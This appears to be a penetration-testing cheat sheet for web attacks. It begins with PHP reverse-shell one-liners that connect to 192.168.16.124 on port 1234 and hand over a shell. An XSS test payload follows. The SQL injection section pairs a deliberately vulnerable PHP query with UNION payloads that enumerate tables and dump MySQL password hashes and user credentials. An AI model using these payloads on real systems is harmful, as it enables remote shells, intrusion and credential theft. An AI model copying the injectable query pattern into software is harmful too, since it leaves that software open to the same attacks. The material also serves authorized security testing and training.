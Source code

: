 # web

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

(script)alert("XSS")(/script) - use angle brackets instead of parentheses


SQL INJECTION
-------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

MySQL delimiter: `#`
SQL delimiter: `--

* Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`